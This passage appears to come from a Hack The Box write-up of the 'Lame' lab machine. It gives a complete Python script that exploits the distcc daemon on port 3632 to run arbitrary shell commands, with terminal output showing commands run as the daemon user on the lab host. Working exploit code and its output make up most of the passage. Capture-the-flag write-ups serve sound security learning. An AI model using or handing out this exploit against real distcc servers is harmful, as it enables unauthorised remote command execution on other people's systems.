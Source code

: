     
    
    #!/usr/bin/env python3
    
    import socket
    import sys
    
    
    if len(sys.argv) != 4:
        print(f"{sys.argv[0]} [ip] [port] [command]")
        sys.exit(1)
    _, ip, port, cmd = sys.argv
    mask = "0xdffdx0"
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, int(port)))
    full_cmd = f"sh -c '(echo -n {mask};{cmd};echo -n {mask})'"
    payload = f"""DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV{len(full_cmd):8x}{full_cmd}ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-               oARGV00000006main.oDOTI00000001A"""
    s.send(payload.encode())
    resp = s.recv(4096)
    print(resp.decode(errors="ignore").split(mask)[1].strip())
    

The script is very simple. It gets an IP, port, and command from arguments.
Then it creates the payload string using the input command. Looking at the
results coming back, I want a reliable way to pull out the command output. It
looks like it may always start the same number of bytes in, but to be sure,
I’ll have the command `echo` a unique mask before and after the input command,
and then use that to split and find the output.

It runs and returns results:

    
    
    root@kali# ./distcc_exec.py 10.10.10.3 3632 'id'
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
    
    root@kali# ./distcc_exec.py 10.10.10.3 3632 'ls /home/'
    ftp
    makis
    service
    user
    

[« Lame FTP and SMB](/2020/04/07/htb-lame.html)

[](/2020/04/08/htb-lame-more.html)

